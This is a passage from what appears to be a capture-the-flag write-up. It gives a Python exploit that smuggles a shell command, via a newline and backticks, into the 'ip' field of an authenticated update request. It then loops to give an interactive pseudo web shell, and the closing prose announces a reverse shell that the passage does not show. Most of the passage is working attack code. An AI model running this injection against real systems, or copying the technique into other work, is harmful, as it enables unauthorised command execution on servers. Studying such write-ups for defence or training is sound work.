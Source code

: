 ```python
    payload = { 'id'   : '1'
              , 'name' : 'webmail'
              , 'ip'   : f'192.168.3.10\n`{command} > {output}`'
              , 'ttl'  : '600'
              }

    resp = requests.post(URL + '/update', cookies=admin_cookie, data=payload)

    # Undo update
    payload['ip'] = '192.168.3.10'
    requests.post(URL + '/update', cookies=admin_cookie, data=payload)

    return resp

def get_result():
    return requests.get(URL + OUTPUT_FILE).text

def run_shell(cookie):
    while(True):
        cmd = input("cmd> ")

        resp = inject_command(cookie, cmd)

        soup = bs4.BeautifulSoup(resp.text, 'html.parser')

        if '\nInvalid data provided' in soup.find('div', {"class": "alert-message error"}):
            print("( ERROR ): Failed to process command")
        else:
            print(get_result())

def help():
    print(__doc__, file=sys.stderr)
    exit(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        help()

    command = ' '.join(sys.argv[2:])

    with open(sys.argv[1]) as file:
        cookie = file.read().rstrip()

        run_shell(cookie)
```

Running this program we can get a interactive psuedo-web-shell.

![psuedo-shell](/assets/images/posts/rcci/psuedo-shell.png)

However, this shell has some limitations. Namely we can't `cd` and other stuff
so lets setup a reverse web-shell.
